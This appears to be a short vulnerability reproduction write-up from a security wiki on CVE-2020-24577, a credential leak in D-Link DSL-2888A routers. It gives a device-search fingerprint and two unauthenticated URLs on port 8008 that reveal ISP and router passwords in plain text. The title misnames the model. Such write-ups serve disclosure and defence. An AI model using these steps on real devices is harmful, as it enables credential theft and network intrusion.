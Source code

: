 # D-Link DSL-28881A Information Leakage CVE-2020-24577

## Vulnerability Description

After establishing a connection to the network through physical connection or wireless access, malicious users can directly browse the following URL to obtain the Internet provider connection username and password in plain text format, as well as the wireless router's plain text format username and password by browsing the following URL directly

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">D-Link DSL-2888A</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">body="DSL-2888A"</span>

## Vulnerability reappears

Enter any password to establish a connection on the login page



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/link-1-20220314114948366.png)



Jump to http://xxx.xxx.xxx.xxx/page/login/login.html?error=fail Display password error

Access the following two connections

```
http://xxx.xxx.xxx.xxx:8008/tmp/cfg/lib_cfg_cfgcmd
http://xxx.xxx.xxx.xxx:8008/tmp/.nvram
```



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/link-3.png)
